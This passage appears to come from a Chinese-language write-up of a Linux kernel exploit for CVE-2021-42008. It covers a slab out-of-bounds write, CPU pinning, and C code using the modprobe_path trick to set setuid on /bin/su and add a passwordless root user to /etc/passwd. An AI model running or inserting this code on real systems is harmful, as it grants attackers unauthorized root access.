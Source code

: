 ![6](/images/posts/CVE-2021-42008/\6.png)

#### 2-3. 越界读泄露内核基址

接下来 `decode_data()` 继续将 0x0e 字节的payload越界写到下一个chunk中。

**初始化**：由于工作在SMD环境，每个CPU都管理着SLUB分配器中可用的slab（参见[kmem_cache_cpu](https://elixir.bootlin.com/linux/v5.13.12/source/include/linux/slub_def.h#L43)），需要确保在同一个CPU上运行，增大利用成功率，调用 [sched_setaffinity()](https://linux.die.net/man/2/sched_setaffinity) 限制在核0上运行。再调用 `prepare_exploit()` 来准备 `modprobe` 所需的文件，执行成功后，程序会新添一个有root权限的用户。

```c
void prepare_exploit()
{
    system("echo -e '\xdd\xdd\xdd\xdd\xdd\xdd' > /tmp/asd");
    system("chmod +x /tmp/asd");
    system("echo '#!/bin/sh' > /tmp/x");
    system("echo 'chmod +s /bin/su' >> /tmp/x"); // Needed for busybox, just in case
    system("echo 'echo \"pwn::0:0:pwn:/root:/bin/sh\" >> /etc/passwd' >> /tmp/x"); // [4]
    system("chmod +x /tmp/x");

    memcpy(buff2 + 0xfc8, "/tmp/x\00", 7);
}


void assign_to_core(int core_id)
{
    cpu_set_t mask;
    pid_t pid;
```